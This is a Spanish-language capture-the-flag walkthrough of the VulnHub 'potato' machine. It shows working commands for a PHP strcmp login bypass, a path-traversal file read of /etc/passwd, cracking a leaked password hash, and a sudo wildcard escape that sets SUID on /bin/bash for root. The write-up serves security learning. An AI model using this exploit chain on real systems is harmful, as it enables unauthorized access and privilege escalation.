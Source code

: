 ```yaml
---
layout: post
title: potato - VulnHub
subtitle: "potato - VulnHub"
tags: [Linux,php]
---
```


## Enumeración

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
2112/tcp open  ftp     ProFTPD
```

### FTP 2112

Usuario anonymous habilitado

```
ftp> ls
200 PORT command successful
150 Opening ASCII mode data connection for file list
-rw-r--r--   1 ftp      ftp           901 Aug  2  2020 index.php.bak
-rw-r--r--   1 ftp      ftp            54 Aug  2  2020 welcome.msg
```

El contenido del archivo `index.php.bak` revela una funcion vulnerable de `php` (strcmp).

```
[...]
if($_GET['login']==="1"){
  if (strcmp($_POST['username'], "admin") == 0  && strcmp($_POST['password'], $pass) == 0) {
    echo "Welcome! </br> Go to the <a href=\"dashboard.php\">dashboard</a>";
    setcookie('pass', $pass, time() + 365*24*3600);
  }else{
    echo "<p>Bad login/password! </br> Return to the <a href=\"index.php\">login page</a> <p>";
  }
  exit();
}
?>
[...]
```


### Servicio web 80

**Omisión de autenticación**  
[http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/](http://www.dimuthu.org/blog/2008/10/31/triple-equal-operator-and-null-in-php/)

Si establezco `$_POST['password']` igual a una matriz vacía, entonces strcmp devolvería un NULL. Debido a algunas debilidades inherentes en las comparaciones de PHP, `NULL==0` devolverá verdadero.

![https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png](https://hydrasky.com/wp-content/uploads/2017/05/loose-comparison.png)

Con esto en mente, envié la siguiente solicitud a la página de inicio de sesión a través de BurpSuite.

![php](../assets/imgs/potato/php.png)

Y nos logueamos como usuario `admin`.

![admin](../assets/imgs/potato/admin.png)

### LFI

Dentro del panel de administración encuentro una parámetro vulnerable obteniendo el resultado siguiente:

![lfi](../assets/imgs/potato/lfi.png)

```
❯ curl -s "http://192.168.188.101/admin/dashboard.php?page=log" -H "Cookie: pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" --data "file=../../../../../etc/passwd" | html2text | grep "../.." -A 100
```

```
Contenu du fichier ../../../../../etc/passwd :
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
[...]
florianges:x:1000:1000:florianges:/home/florianges:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
proftpd:x:112:65534::/run/proftpd:/usr/sbin/nologin
ftp:x:113:65534::/srv/ftp:/usr/sbin/nologin
webadmin:$1$webadmin$3sXBxGUtDGIFAcnNTNhi6/:1001:1001:webadmin,,,:/home/
```

Obtengo la contraseña de un usuario

```
❯ john --show hash
webadmin:dragon:1001:1001:webadmin,,,:/home/
```

## Escalada de privilegios

```
webadmin@serv:/tmp$ sudo -l
Matching Defaults entries for webadmin on serv:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on serv:
    (ALL : ALL) /bin/nice /notes/*
```

> nice: ejecuta un programa con prioridad de programación modificada

Creamos un script

```
webadmin@serv:/tmp$ cat shell.sh 
#!/bin/bash

chmod +s /bin/bash
echo $(ls -l /bin/bash)
```

Ejecutamos el siguiente comando.

```
webadmin@serv:/tmp$ sudo /bin/nice /notes/../../../../../tmp/shell.sh
-rwsr-sr-x 1 root root 1183448 Feb 25 2020 /bin/bash
```

Obtenemos root

```
webadmin@serv:/tmp$ bash -p
bash-5.0# whoami
root
bash-5.0# cat /root/proof.txt 
417044d5f7358e8479462561c08d8362
```

### Herramientas usadas

- sudo
- nice
- php
- nmap
